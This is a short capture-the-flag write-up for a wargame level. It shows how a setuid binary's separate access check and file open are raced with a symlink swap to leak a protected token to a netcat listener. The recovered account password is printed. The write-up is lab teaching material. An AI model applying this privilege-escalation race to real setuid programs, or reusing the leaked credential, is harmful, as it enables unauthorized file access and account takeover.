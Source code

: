 # Flag 10

```bash
$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We see we have an exe named level10, so run it:
```bash
$ ./level10 file host
```

But we need to open a server on port 6969 to listen for file content.

```bash
$ nc -lk 6969
$ ./level10 token localhost
You don't have access to token
```

So we need to find a way to have access to token. When we dissassemble level10 exe, we see that the call of access and open of file is not direct. So we can do a symbolic link and hope we have the correct timing to switch file pointed by symbolic link at correct timing, and we have a small script to do this


```bash
$ chmod +x script.sh
$ ./script.sh
```

Inside the terminal where we run nc we get:
woupa2yuojeeaaed06riuj63c (flag10 password)

```bash
$ su flag10
$ getflag
```
